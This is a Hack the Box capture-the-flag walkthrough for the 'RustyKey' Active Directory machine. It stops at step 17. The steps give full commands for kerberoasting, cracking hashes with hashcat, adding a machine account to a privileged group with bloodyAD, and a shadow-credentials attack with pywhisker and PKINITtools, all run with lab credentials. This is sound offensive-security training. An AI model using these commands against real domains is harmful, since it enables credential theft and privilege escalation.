 # RustyKey

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/483ca663-e7d2-4944-b26e-5564e6d92d2d)

2. Run bloodhound using given credentials `rr.parker:8#t5HE8L!W3A`

![image](https://github.com/user-attachments/assets/3874dc11-7171-4dd9-9f61-b3472efb00f8)

3. We get an error with LDAP saying it can't find dc.rustykey.htb so add that to `/etc/hosts` file and try again.

`sudo bloodhound-python -d rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -ns 10.129.63.201 -c all`

4. With bloodhound, we find the path to user is through nn.marcos user

![image](https://github.com/user-attachments/assets/22162d58-fed1-421d-a1e1-36a639eef6ba)

5. However, with rr.parker, there is no way to nn.marcos. After much enumeration and dead ends, we try kerberoasting to gain initial access. But we get no results for it

`nxc ldap dc.rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -k --kerberoasting kerberoast.txt`

![image](https://github.com/user-attachments/assets/f06dbd5b-a301-42a9-9034-1a996a147349)

6. Running it again with the debug flag this time, we see that by default, nxc searches only for computers. We change the filter to look for users instead and try again.

![image](https://github.com/user-attachments/assets/1bca6dc5-6fa5-4fc6-aa8b-afbfba610c98)

7. Kerberoasting successful! We got a hash

![image](https://github.com/user-attachments/assets/e4d8528d-03cd-468e-bbde-3ae0a0f6c1df)

8. Crack offline with hashcat

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

9. Hash doesn't crack, so we try kerberoasting with a different method. First, enumerate all usernames with ldapsearch

`ldapsearch -x -H ldap://rustykey.htb -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b "DC=rustykey,DC=htb" "(objectCategory=*)" sAMAccountName | grep '^sAMAccountName:' | cut -d' ' -f2 > accountList`

![image](https://github.com/user-attachments/assets/2f6787e2-1765-4f50-b0d9-c30819116bb2)

10. Then try kerberoasting using impacket's GetUserSPNs.py script using the `-usersfile` flag

`GetUserSPNs.py -usersfile accountList -request -k -dc-ip 10.129.244.92 -dc-host dc.rustykey.htb rustykey.htb/rr.parker:"8#t5HE8L\!W3A" -outputfile kerberoast.txt`

![image](https://github.com/user-attachments/assets/dd7e5e13-5d06-4055-b210-bd046e3d64da)

11. Kerberoasting is a success and we get back 17 hashes. Try cracking them offline once more using hashcat

`hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/f791b6a7-ae86-412b-a5ed-ea7dbfe78616)

12. Got the password for machine account IT-Computer3$. Now, check bloodhound and see if there's a path to the machine with this account

![image](https://github.com/user-attachments/assets/61ed86ed-c04a-4ecc-8e1d-e017673e08d4)

13. Yes, there is! So our game plan now will be to add the IT-Computer3$ account to the Helpdesk group, which can change BB.Morgan's password. This will give us access to the DC.Rustykey.htb machine!

14. Add IT-Computer3$ to Helpdesk group via bloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' add groupMember Helpdesk 'IT-Computer3$'`

![image](https://github.com/user-attachments/assets/bc7eb631-1379-4863-89ff-9d9dc105ffdf)

15. Using IT-Computer3$, which has GenericWrite on dd.ali, do shadow credential attack using pywhisker script

![image](https://github.com/user-attachments/assets/990c4f98-5ab8-4583-980c-9e4094380a24)

16. Doesn't work initially, so look at pywhisker.py source code and debug/troubleshoot. Then try again and success!

`sudo python3 /opt/pywhisker/pywhisker/pywhisker.py --dc-ip dc.rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' -k --target "dd.ali" --action "add" -f dd.ali -p Password123 -d rustykey.htb`

17. Using shadow credential, attempt to get TGT as dd.ali user

`sudo python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx dd.ali.pfx -pfx-pass Password123 rustykey.htb/dd.ali dd.ali.ccache -dc-ip 10.129.244.92`




